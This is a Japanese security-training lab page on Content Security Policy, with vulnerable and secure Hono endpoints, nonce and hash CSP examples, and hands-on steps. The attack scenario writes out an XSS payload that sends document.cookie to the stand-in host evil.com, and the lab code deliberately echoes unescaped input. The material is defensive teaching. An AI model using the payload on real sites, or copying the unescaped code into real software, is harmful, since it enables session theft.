

# Content Security Policy — ブラウザにコンテンツの実行ルールを指示する

> CSPヘッダを使ってインラインスクリプトの実行や外部リソースの読み込みを制限し、XSS等の攻撃が成功してもブラウザレベルで被害を軽減する多層防御を学びます。

---

## 対象ラボ

### 1. CSP なしでの XSS 実行 vs CSP ありでのブロック

| 項目 | 内容 |
|------|------|
| **概要** | CSP ヘッダが未設定のページではインラインスクリプトがそのまま実行されるが、適切な CSP を設定するとブラウザがスクリプトの実行をブロックする |
| **攻撃例** | `<script>alert(document.cookie)</script>` をページに注入 → CSP なしでは実行、CSP ありではブロック |
| **技術スタック** | Hono API (HTML レスポンス + CSP ヘッダ) |
| **難易度** | ★★☆ 中級 |
| **前提知識** | HTTP ヘッダの基本、XSS の仕組み（Step 2: XSS）、ブラウザの開発者ツール（DevTools）の使い方 |

### 2. nonce-based CSP による許可されたスクリプトの選択的実行

| 項目 | 内容 |
|------|------|
| **概要** | nonce 属性を使って、サーバーが意図したスクリプトのみを実行許可し、攻撃者が注入したスクリプトはブロックする |
| **攻撃例** | 攻撃者のスクリプトには正しい nonce がないためブラウザがブロック |
| **技術スタック** | Hono API (nonce 生成 + CSP ヘッダ) |
| **難易度** | ★★★ 上級 |
| **前提知識** | CSP の基本ディレクティブ、暗号論的乱数生成の概念 |

---

## この脆弱性を理解するための前提

### ブラウザがスクリプトを実行する仕組み

ブラウザは HTML を解析する際、以下のようなスクリプト実行元を区別せずにすべて実行する:

1. **インラインスクリプト**: HTML 内の `<script>` タグに直接書かれたコード
2. **外部スクリプト**: `<script src="...">` で読み込まれた外部ファイル
3. **イベントハンドラ**: `onclick`, `onerror` 等の HTML 属性に書かれたコード
4. **`eval()` 等の動的コード**: 文字列を JavaScript として評価する関数

```html
<!-- ブラウザはこれらを全て「このサイトの正規コード」として実行する -->
<script>console.log('インライン')</script>
<script src="https://cdn.example.com/app.js"></script>

```

通常のブラウザは **同一オリジンポリシー** でオリジン間のアクセスを制限するが、HTML レスポンスに含まれるスクリプトは「サーバーが意図的に含めたもの」とみなしてすべて実行する。サーバーが返したスクリプトが「開発者が書いた正規のコード」なのか「攻撃者が注入したコード」なのか、ブラウザには区別できない。

### CSP (Content-Security-Policy) の仕組み

CSP は HTTP レスポンスヘッダによって、ブラウザに「このページでは何を実行・読み込みしてよいか」のルールを指示する仕組みである。

```
Content-Security-Policy: script-src 'self'; style-src 'self' https://cdn.example.com; img-src *
```

このヘッダは以下を意味する:
- **`script-src 'self'`**: スクリプトは同一オリジンの外部ファイルのみ許可（インラインスクリプトは禁止）
- **`style-src 'self' https://cdn.example.com`**: スタイルシートは同一オリジンと指定 CDN のみ許可
- **`img-src *`**: 画像はすべてのオリジンから読み込み許可

#### 主要なディレクティブ

| ディレクティブ | 制御対象 | 例 |
|---------------|----------|-----|
| `default-src` | 他のディレクティブで指定されていないリソースのフォールバック | `default-src 'self'` |
| `script-src` | JavaScript の実行元 | `script-src 'self' 'nonce-abc123'` |
| `style-src` | CSS の読み込み元 | `style-src 'self' 'unsafe-inline'` |
| `img-src` | 画像の読み込み元 | `img-src 'self' data:` |
| `connect-src` | `fetch`, `XMLHttpRequest`, WebSocket の接続先 | `connect-src 'self' https://api.example.com` |
| `frame-ancestors` | このページを `<iframe>` で埋め込める親ページ | `frame-ancestors 'none'` |

### どこに脆弱性が生まれるのか

問題は、CSP ヘッダが **設定されていない** か、**過度に緩いポリシー** が設定されている場合に発生する。CSP がなければ、XSS でインラインスクリプトを注入された際にブラウザはそれを無条件に実行する。

```typescript
// ⚠️ この部分が問題 — CSP ヘッダなしでユーザー入力を含む HTML を返している
app.get('/page', (c) => {
  const name = c.req.query('name') ?? '';
  // XSS の脆弱性がある上に、CSP による多層防御もない
  return c.html(`
    <html>
    <body>
      <h1>こんにちは、${name}さん</h1>
      <script src="/app.js"></script>
    </body>
    </html>
  `);
});
```

このコードには2つの問題がある。1つ目はエスケープの欠如（XSS の根本原因）、2つ目は CSP ヘッダの未設定（多層防御の欠如）。仮にエスケープが漏れた場合でも、CSP が設定されていればブラウザがインラインスクリプトの実行をブロックできる。

また、以下のような「緩すぎる CSP」も危険である:

```
Content-Security-Policy: script-src 'self' 'unsafe-inline' 'unsafe-eval'
```

`'unsafe-inline'` はインラインスクリプトの実行を許可し、`'unsafe-eval'` は `eval()` の使用を許可する。これでは CSP が存在しないのとほぼ同じであり、XSS 攻撃をブロックできない。

---

## 攻撃の仕組み


### 攻撃のシナリオ

#### シナリオ: CSP 未設定のページへの XSS 攻撃

1. **攻撃者** が XSS ペイロードを含む URL を作成し、被害者に送信する

   ページに XSS の脆弱性があることを発見した攻撃者は、以下のような URL を作成する。CSP が設定されていないため、注入したスクリプトは何の制限もなく実行される。

   ```
   http://localhost:3000/api/labs/csp/vulnerable/page?name=<script>fetch('https://evil.com/steal?cookie='+document.cookie)</script>
   ```

2. **サーバー** がユーザー入力をエスケープせずに HTML レスポンスに埋め込む

   CSP ヘッダが付与されていないため、ブラウザにはスクリプトの実行制限が一切通知されない。

   ```html
   HTTP/1.1 200 OK
   Content-Type: text/html
   <!-- Content-Security-Policy ヘッダがない -->

   <html>
   <body>
     <h1>こんにちは、<script>fetch('https://evil.com/steal?cookie='+document.cookie)</script>さん</h1>
     <script src="/app.js"></script>
   </body>
   </html>
   ```

3. **被害者のブラウザ** がスクリプトを無条件に実行する

   CSP がないため、ブラウザはインラインスクリプトを「このサイトの正規コード」とみなして実行する。`fetch()` により被害者の Cookie が攻撃者のサーバーに送信される。

4. **攻撃者** が窃取した Cookie でセッションハイジャックを行う

   被害者のセッション Cookie を取得した攻撃者は、そのCookie を自身のブラウザにセットして被害者になりすます。

### なぜ成功するのか

| 条件 | 説明 |
|------|------|
| CSP ヘッダの未設定 | ブラウザにスクリプト実行のルールが通知されないため、インラインスクリプトを含むすべてのスクリプトが無制限に実行される |
| XSS の脆弱性 | ユーザー入力が HTML の一部としてエスケープされずに出力される。CSP がなくても XSS がなければ攻撃は成立しないが、CSP は「XSSが仮に存在した場合の安全網」として機能する |
| `unsafe-inline` の使用 | CSP を設定していても `'unsafe-inline'` を指定していると、インラインスクリプトの実行が許可されるため防御効果がない |

### 被害の範囲

- **機密性**: セッション Cookie、ローカルストレージ内のトークン、ページに表示された個人情報が攻撃者に送信される
- **完全性**: 攻撃者のスクリプトによりページ内容が改ざんされ、フィッシングフォームの表示やリンクの書き換えが行われる
- **可用性**: 外部スクリプトの読み込みにより暗号通貨マイナーの実行やリダイレクトループが仕込まれ、正常なサービス利用が妨害される

---

## 対策



### 根本原因

XSS の根本対策は出力エスケープであり、CSP はそれに加える **多層防御** である。しかし、CSP が欠如していると「エスケープ漏れ1つ」が直接的な被害に直結する。ブラウザに「何を実行してよいか」のルールを伝えていないことが、多層防御の不在という意味での根本原因となる。

### 安全な実装

#### 1. 基本的な CSP ヘッダの設定

まず最もシンプルな CSP として、インラインスクリプトを禁止し、同一オリジンのスクリプトのみを許可する:

```typescript
// ✅ CSP ヘッダを設定し、インラインスクリプトの実行を禁止する
app.get('/page', (c) => {
  const name = escapeHtml(c.req.query('name') ?? '');

  // CSP: 同一オリジンのスクリプトのみ許可、インラインスクリプトは禁止
  c.header('Content-Security-Policy', "default-src 'self'; script-src 'self'; style-src 'self'; img-src 'self'; connect-src 'self'");

  return c.html(`
    <html>
    <body>
      <h1>こんにちは、${name}さん</h1>
      <script src="/app.js"></script>
    </body>
    </html>
  `);
});
```

仮にエスケープ処理に漏れがあり `<script>alert(1)</script>` が HTML に含まれても、CSP の `script-src 'self'` によりインラインスクリプトの実行はブラウザがブロックする。

#### 2. nonce-based CSP（推奨）

`nonce` はリクエストごとに生成されるランダムな値で、サーバーが意図したスクリプトにのみ付与する。ブラウザは CSP ヘッダの nonce と一致する `<script>` タグのみを実行する:

```typescript
import { randomBytes } from 'node:crypto';

// ✅ nonce-based CSP — リクエストごとに一意の nonce を生成
app.get('/page', (c) => {
  const name = escapeHtml(c.req.query('name') ?? '');

  // 暗号論的に安全な乱数で nonce を生成（リクエストごとに異なる値）
  const nonce = randomBytes(16).toString('base64');

  // CSP: この nonce を持つスクリプトのみ実行許可
  // 'strict-dynamic' により、許可されたスクリプトから読み込まれたスクリプトも許可
  c.header(
    'Content-Security-Policy',
    `default-src 'self'; script-src 'nonce-${nonce}' 'strict-dynamic'; style-src 'self'; img-src 'self'; connect-src 'self'`
  );

  return c.html(`
    <html>
    <body>
      <h1>こんにちは、${name}さん</h1>
      <!-- nonce 属性が付いたスクリプトのみ実行される -->
      <script nonce="${nonce}" src="/app.js"></script>
    </body>
    </html>
  `);
});
```

攻撃者が `<script>alert(1)</script>` を注入しても、このスクリプトには正しい `nonce` が付いていないため、ブラウザが実行をブロックする。nonce はリクエストごとに変わるため、攻撃者が事前に推測することも不可能。

#### 3. hash-based CSP

特定のインラインスクリプトのハッシュ値を CSP に指定する方法。スクリプトの内容が固定の場合に有効:

```typescript
import { createHash } from 'node:crypto';

// インラインスクリプトの内容
const inlineScript = "console.log('初期化完了');";

// SHA-256 ハッシュを計算
const hash = createHash('sha256').update(inlineScript).digest('base64');

// ✅ hash-based CSP — ハッシュが一致するインラインスクリプトのみ実行許可
app.get('/page', (c) => {
  c.header(
    'Content-Security-Policy',
    `script-src 'sha256-${hash}'`
  );

  return c.html(`
    <html>
    <body>
      <!-- ハッシュが一致するこのスクリプトは実行される -->
      <script>${inlineScript}</script>
    </body>
    </html>
  `);
});
```

攻撃者が注入したスクリプトはハッシュ値が異なるため、実行をブロックされる。ただし、スクリプトの内容が動的に変わる場合は nonce-based CSP の方が適している。

#### 4. report-uri と report-only モードによる段階的導入

CSP を既存のアプリケーションにいきなり適用すると、正規のスクリプトもブロックしてしまう可能性がある。`Content-Security-Policy-Report-Only` ヘッダを使えば、ブロックせずに違反をレポートだけ行える:

```typescript
// ✅ まず Report-Only で影響を調査（ブロックはしない）
app.use('/*', async (c, next) => {
  // Report-Only: 違反を検出してもブロックせず、レポートのみ送信
  c.header(
    'Content-Security-Policy-Report-Only',
    "default-src 'self'; script-src 'self'; report-uri /api/csp-report"
  );
  await next();
});

// CSP 違反レポートを受け取るエンドポイント
app.post('/api/csp-report', async (c) => {
  const report = await c.req.json();
  // 違反内容をログに記録して分析する
  console.log('[CSP Report]', JSON.stringify(report, null, 2));
  return c.json({ received: true });
});
```

**段階的導入のステップ**:
1. `Content-Security-Policy-Report-Only` でレポートのみ収集（本番に影響なし）
2. レポートを分析し、正規リソースがブロック対象になっていないか確認
3. ポリシーを調整して誤検知を解消
4. `Content-Security-Policy` に切り替えて実際にブロックを有効化

#### 脆弱 vs 安全: コード比較

```diff
  app.get('/page', (c) => {
-   const name = c.req.query('name') ?? '';
+   const name = escapeHtml(c.req.query('name') ?? '');
+
+   const nonce = randomBytes(16).toString('base64');
+   c.header(
+     'Content-Security-Policy',
+     `default-src 'self'; script-src 'nonce-${nonce}' 'strict-dynamic'; style-src 'self'`
+   );

    return c.html(`
      <html>
      <body>
        <h1>こんにちは、${name}さん</h1>
-       <script src="/app.js"></script>
+       <script nonce="${nonce}" src="/app.js"></script>
      </body>
      </html>
    `);
  });
```

脆弱なコードではエスケープも CSP もなく、注入されたスクリプトが無条件で実行される。安全なコードでは (1) エスケープにより XSS の根本対策を行い、(2) nonce-based CSP によりエスケープ漏れがあっても被害を軽減する多層防御を実現している。

### その他の防御策

| 対策 | 種類 | 説明 |
|------|------|------|
| 出力エスケープ | 根本対策 | XSS の根本対策。CSP はエスケープ漏れに対する安全網であり、エスケープの代替ではない |
| nonce-based CSP | 多層防御 | リクエストごとの nonce でスクリプトの実行を制御。`'unsafe-inline'` を使わずにインラインスクリプトを許可できる |
| `strict-dynamic` | 多層防御 | nonce で許可されたスクリプトが動的に読み込むスクリプトも自動的に許可。ホワイトリスト管理の負担を軽減 |
| `frame-ancestors 'none'` | 多層防御 | クリックジャッキング対策。`X-Frame-Options` に代わる現代的な方法 |
| `report-uri` / `report-to` | 検知 | CSP 違反をサーバーに報告し、攻撃の試みやポリシーの問題を検知する |
| HttpOnly Cookie | 多層防御 | CSP を突破された場合でも、Cookie への JavaScript アクセスを禁止してセッション Cookie の窃取を防ぐ |

---

## ハンズオン手順

### Step 1: 脆弱バージョンで攻撃を体験

**ゴール**: CSP ヘッダがないページでインラインスクリプトが実行されることを確認する

1. 開発サーバーを起動する

   ```bash
   cd backend && pnpm dev
   ```

2. CSP なしのページに XSS ペイロードを送信する

   ```bash
   # ブラウザで開く（alert が表示される）
   # http://localhost:3000/api/labs/csp/vulnerable/page?name=<script>alert('XSS')</script>

   # curl でレスポンスヘッダと HTML を確認
   curl -v "http://localhost:3000/api/labs/csp/vulnerable/page?name=<script>alert('XSS')</script>"
   ```

3. 結果を確認する

   - ブラウザで開くと `alert('XSS')` のダイアログが表示される
   - curl の結果: レスポンスヘッダに `Content-Security-Policy` が含まれていない
   - HTML 内にスクリプトがそのまま埋め込まれている
   - **この結果が意味すること**: ブラウザにスクリプト実行のルールが伝わっていないため、注入されたスクリプトが無条件に実行される

4. DevTools の Console タブを確認する

   - ブラウザの開発者ツール → Console タブを開く
   - CSP が設定されていないため、CSP 違反のログは何も表示されない
   - つまり、ブラウザはスクリプトの実行を一切制限していない

### Step 2: 安全バージョンで防御を確認

**ゴール**: 同じ攻撃が CSP によりブラウザでブロックされることを確認する

1. CSP ありのページに同じペイロードを送信する

   ```bash
   # ブラウザで開く（alert は表示されない）
   # http://localhost:3000/api/labs/csp/secure/page?name=<script>alert('XSS')</script>

   # curl でレスポンスヘッダを確認
   curl -v "http://localhost:3000/api/labs/csp/secure/page?name=<script>alert('XSS')</script>"
   ```

2. 結果を確認する

   - ブラウザで開いても `alert` は表示 **されない**
   - curl でレスポンスヘッダに `Content-Security-Policy` が含まれていることを確認
   - HTML 内にはスクリプトが含まれている（エスケープ漏れのシミュレーション）が、CSP がブロックしている

3. DevTools の Console タブで CSP 違反ログを確認する

   - ブラウザの開発者ツール → Console タブを開く
   - 以下のような CSP 違反ログが表示される:

   ```
   Refused to execute inline script because it violates the following
   Content Security Policy directive: "script-src 'nonce-xxxxx' 'strict-dynamic'".
   Either the 'unsafe-inline' keyword, a hash, or a nonce is required to enable inline execution.
   ```

   - このログにより「CSP がインラインスクリプトの実行をブロックした」ことが確認できる

4. 正規のスクリプト（`/app.js`）は正常に動作していることを確認する

   - nonce 属性が付いたスクリプトは実行される
   - nonce が付いていない注入スクリプトのみがブロックされる

5. コードの差分を確認する

   - `backend/src/labs/step09-defense/csp.ts` の脆弱版と安全版を比較
   - **どの行が違いを生んでいるか** に注目: CSP ヘッダの設定と nonce 属性の付与

### 確認ポイント

以下を自分の言葉で説明できれば、このラボは完了です:

- [ ] CSP が「根本対策」ではなく「多層防御」である理由は何か
- [ ] `'unsafe-inline'` を指定すると CSP の効果がなくなる理由は何か
- [ ] nonce-based CSP で攻撃者がスクリプトを実行できない理由は何か（nonce が推測できないことの重要性）
- [ ] `report-only` モードが段階的導入に有効な理由は何か
- [ ] DevTools の Console で CSP 違反ログをどう確認するか

---

## 実装メモ

| 項目 | パス |
|------|------|
| 脆弱エンドポイント | `/api/labs/csp/vulnerable/page` |
| 安全エンドポイント | `/api/labs/csp/secure/page` |
| バックエンド | `backend/src/labs/step09-defense/csp.ts` |
| フロントエンド | `frontend/src/labs/step09-defense/pages/Csp.tsx` |

- 脆弱版では CSP ヘッダを一切設定せず、`c.html()` でユーザー入力を含む HTML を返す
- 安全版では nonce-based CSP を設定し、`<script>` タグに nonce 属性を付与
- nonce は `crypto.randomBytes(16).toString('base64')` でリクエストごとに生成
- report-only モードのデモ用に `/api/csp-report` エンドポイントも用意
- フロントエンド側では CSP 違反ログの確認方法をガイドとして表示

---

## 現実世界での事例

| 年 | インシデント | 概要 |
|----|-------------|------|
| 2016 | GitHub | CSP の段階的導入の成功事例。`report-uri` で半年間違反を収集・分析し、段階的にポリシーを厳格化。最終的に nonce-based CSP を全ページに適用 |
| 2018 | British Airways | 決済ページに CSP が設定されていなかったため、XSS によりクレジットカードスキミングスクリプトが注入され、38 万件の決済情報が漏洩 |
| 2019 | Google (CSP Evaluator 公開) | CSP の設定ミスが広く存在することを受け、Google がポリシー評価ツール CSP Evaluator を公開。`'unsafe-inline'` を使用している CSP が多数報告された |

---

## 関連ラボ

| ラボ | 関連性 |
|------|--------|
| [XSS](../step02-injection/xss.md) | CSP は XSS のエスケープ漏れに対する多層防御。XSS の仕組みを理解した上で CSP の効果を学ぶ |
| [クリックジャッキング](../step07-design/clickjacking.md) | CSP の `frame-ancestors` ディレクティブはクリックジャッキング対策としても機能する。`X-Frame-Options` の現代的な代替 |
| [セッションハイジャック](../step04-session/session-hijacking.md) | CSP がない環境で XSS が成功すると Cookie の窃取によるセッションハイジャックが可能。CSP は Cookie 窃取の防止にも貢献する |

---

## 参考資料

- [OWASP - Content Security Policy Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Content_Security_Policy_Cheat_Sheet.html)
- [CWE-693: Protection Mechanism Failure](https://cwe.mitre.org/data/definitions/693.html)
- [MDN - Content-Security-Policy](https://developer.mozilla.org/ja/docs/Web/HTTP/Headers/Content-Security-Policy)
- [Google - CSP Evaluator](https://csp-evaluator.withgoogle.com/)
